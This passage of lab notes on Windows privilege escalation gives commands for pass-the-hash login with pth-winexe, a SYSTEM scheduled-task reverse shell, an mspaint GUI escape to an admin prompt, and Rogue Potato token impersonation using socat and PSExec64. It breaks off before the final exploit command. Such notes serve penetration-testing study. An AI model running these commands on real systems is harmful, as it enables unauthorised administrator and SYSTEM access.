 - You can use the hash to login instead of cracking the password,use `pth-winexe`

       pth-winexe -U "admin%[hash]" //[ip] cmd.exe

- Remember that the hash contains both the LM and NTLM hash seperated by colon

![image](https://github.com/user-attachments/assets/4ee7eeb2-ee1f-471d-9ba7-74cddfaa4f2d)

### Scheduled tasks

- An attacker can abuse a scheduled process running a script running as `SYSTEM` with write access.

![image](https://github.com/user-attachments/assets/59704788-9e65-4a01-a962-8fd5749966ce)

- Append a line that trigger our reverse shell

![image](https://github.com/user-attachments/assets/78abb9ec-d07f-43e7-be1a-5bc2b453dcd2)

- Reverse shell

![image](https://github.com/user-attachments/assets/fbc57a9b-54f1-49ac-88a3-ff9c37520e40)

### Insecure GUI apps

- Abusing `mspaint.exe`
- Double-click on the adminpaint shortcut
- Run this `tasklist /V | findstr mspaint.exe` to see if it is running with admin privileges

![image](https://github.com/user-attachments/assets/9284c76e-9c6a-4b6c-bcb9-fc1472de2c01)

- Click `file` and `open`.then paste this:`file://c:/windows/system32/cmd.exe`

![image](https://github.com/user-attachments/assets/321fe040-b73a-407a-a30c-c0294b50e1bf)

- Press enter to spawn a command prompt with admin privileges


### TOKEN IMPERSONATION-Rogue Potato

- Set up a socat redirector redirecting traffic from a port on your machine to another port on the victim machine

      sudo socat tcp-listen:[listening port],reuseaddr,fork tcp:[target-ip]:[port]

- Start a listener on Kali. Simulate getting a service account shell by logging into RDP as the admin user, starting an elevated command prompt (right-click -> run as administrator) and using PSExec64.exe to trigger the reverse.exe executable you created with the permissions of the "local service" account.

      C:\PrivEsc\PSExec64.exe -i -u "nt authority\local service" C:\PrivEsc\reverse.exe

![image](https://github.com/user-attachments/assets/bfd711a0-b618-4bec-86b8-11367034372f)

- Now, in the "local service" reverse shell you triggered, run the RoguePotato exploit to trigger a second reverse shell running with SYSTEM privileges (update the IP address with your Kali IP accordingly):
